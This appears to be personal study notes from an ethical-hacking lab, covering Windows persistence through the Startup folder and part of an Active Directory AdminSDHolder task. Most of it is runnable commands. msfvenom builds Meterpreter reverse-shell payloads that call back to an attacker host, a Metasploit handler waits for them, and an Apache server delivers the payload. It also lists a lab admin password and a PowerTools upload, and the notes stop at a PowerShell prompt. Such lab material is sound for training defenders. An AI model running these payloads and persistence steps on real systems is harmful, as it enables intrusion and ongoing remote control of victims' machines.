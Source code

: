 	Second terminal->
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=8080 -f exe > payload.exe
	
	First Terminal
	upload /home/attacker/payload.exe 
	
	[windows 11]
	Login to Admin account -> Restart windows machine
	
	[parrot]
	Open another terminal window with root privilages 
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 8080
	exploit
	
	[windows 11]  login to Admin account and restart the machine so that the malicious file that is placed in the startup folder is executed.
	
	[parrot]
	meterpreter session is open [Note: takes little time to open]
	getuid
Whenever the Admin restarts the system, a reverse shell is opened to the attacker until the payload is detected by the administrator.	Thus attacker can maintain persistence on the target machine using misconfigured Startup folder.**End** the lab and re-launch it to reset the machines.
     
---------
- **Task 7: Maintain domain persistence by exploiting Active Directory Objects**

AdminSDHolder is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admins etc. to protect them from unintentional modification of permissions.
If a user account is added into the access control list of AdminSDHolder, the user will acquire "GenericAll" permissions which is equivalent to domain administrators.

	[parrot]
	sudo su
	cd -> root dir
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Exploit.exe
	share the file same as mentioned b4
	cp /home/attacker/Desktop/Exploit.exe /var/www/html/share
	service apache2 start
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 444
	run
	[Windows server 2022]
	Administrator//Pa$$w0rd
	http://10.10.1.13/share download Exploit.exe and run
	[parrot]
	meterpreter session is open
	getuid ->	CEH\Administrator
	upload -r /home/attacker/PowerTools-master c:\\Users\\Administrator\\Downloads  ->upload PowerTools-Master folder to the target system
	shell -> create shell in console
	cd c:\Windows\System32
	powershell --> to launch powershell
